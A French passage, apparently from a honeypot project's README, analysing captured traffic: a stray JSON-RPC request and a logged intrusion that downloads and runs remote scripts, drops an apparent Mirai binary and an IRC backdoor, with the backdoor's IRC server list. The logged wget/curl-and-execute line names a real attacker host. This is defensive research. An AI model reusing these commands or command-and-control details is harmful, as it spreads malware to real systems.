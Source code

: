 ```
<24-3_13h47> [WARNING] - foreign data:
POST / HTTP/1.0
Content-Length: 51
Content-Type: application/json

{"id":0,"jsonrpc":"2.0","method":"eth_blockNumber"}
```
Le serveur détecte automatiquement les données ne venant pas du honeypot et adopte le comportement [foreign data](#foreign-data), ici nous l'affichons simplement à la console. Ce n'est pas directement une attaque sur le honeypot, mais probablement une tentative de minage de crypto monnaie envoyée sur le port ouvert de notre serveur.

Enfin, nous avons pu assister à une réelle attaque qui marque aussi la fin de l'exposition directe sur internet, le 21 octobre 2022 de 16h15 à 16h19. Ci-dessous, les logs de l'attaque effectuée.
```
<04-21_16h15> [91.134.127.80] - cd /data/local/tmp/; busybox wget http://205.185.116.110/w.sh; sh w.sh; curl http://205.185.116.110/c.sh; sh c.sh
<04-21_16h15> [91.134.127.80] - ls
<04-21_16h15> [91.134.127.80] - file *
<04-21_16h16> [91.134.127.80] - htop
<04-21_16h16> [91.134.127.80] - !
<04-21_16h16> [91.134.127.80] - ./sh4
<04-21_16h16> [91.134.127.80] - exit
<04-21_16h18> [91.134.127.80] - nano botnet.sj
<04-21_16h19> [91.134.127.80] - nano botnet.sh
<04-21_16h19> [91.134.127.80] - chmod +x botnet.sh 
<04-21_16h19> [91.134.127.80] - ./botnet.sh
```
Grâce à la gestions des snapshots, nous avons aussi pu récupérer tout les fichiers télechargés sur la machine, soit: ``w.sh``, ``c.sh``, ``sh4`` et ``botnet.sh``. Pour des raisons évidentes ils ne sont pas disponibles sur le git, mais sont en notre possession.

Après avoir mené une analyse, ``w.sh`` et ``c.sh`` sont des scripts detéctant la plateforme du système et téléchargeant un autre fichier distant qui correspond à la plateforme cible. Ici, ``sh4`` est un ELF, un exécutable linux, mais grâce à l'analyse des scripts, nous avons aussi pu trouver des fichiers similaires pour des plateformes diférentes, soit ARM, Android, EXE... 

``sh4`` se trouve être un malware de type trojan qui semblerait être le trojan MIRAI-BOTNET, voici un lien vers [l'analyse VirusTotal du fichier](https://www.virustotal.com/gui/file/793bf9870d0a744231f410116a26693eb835e7439b51cc45c2f059b59e4ad036/detection)

Enfin, ``botnet.sh`` ne semble pas être un malware connu, et après l'avoir analysé, nous sommes en capacité d'affirmer que c'est une backdoor implémentée en [IRC](https://en.wikipedia.org/wiki/Internet_Relay_Chat), un compte IRC automatisé qui attend de recevoir un message privé, vérifie que le message privé contient une certaine clé et exécute la commande passé par message si la clé est correcte.

Nous avons aussi récupéré la liste des liens vers un serveur IRC sur lequel le bot/backdoor se connecte, la voici:

```
ix1.undernet.org # biret
ix2.undernet.org # biret
Ashburn.Va.Us.UnderNet.org # biret
Bucharest.RO.EU.Undernet.Org # biret
Budapest.HU.EU.UnderNet.org # biret
Chicago.IL.US.Undernet.org # biret
```
